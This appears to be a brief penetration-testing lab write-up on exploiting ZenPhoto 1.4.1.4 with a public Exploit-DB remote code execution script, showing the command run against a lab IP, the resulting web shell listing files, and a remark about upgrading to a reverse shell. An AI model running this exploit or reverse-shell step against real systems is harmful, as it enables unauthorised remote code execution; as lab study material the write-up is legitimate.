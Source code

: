 # ZenPhoto 1.4.1.4 RCE

{% embed url="https://www.exploit-db.com/exploits/18083" %}

```
╭─      /home/kali/ZenPhoto ▓▒░────────────────────────────────────────────░▒▓ INT ✘  10m 48s    root@kali 
╰─ php /usr/share/exploitdb/exploits/php/webapps/18083.php 192.168.135.41 /test/

+-----------------------------------------------------------+
| Zenphoto <= 1.4.1.4 Remote Code Execution Exploit by EgiX |
+-----------------------------------------------------------+

zenphoto-shell# ls
class.auth.php
class.file.php
class.history.php
class.image.php
class.manager.php
class.pagination.php
class.search.php
class.session.php
class.sessionaction.php
class.upload.php
config.base.php
config.php
config.tinymce.php
data.php
function.base.php

zenphoto-shell# ls /tmp
```

The exploit had a pretty annoying shell so I had to upgrade it using a my own shell.sh and changing its permissions and then catch a reverse shell in another listener.
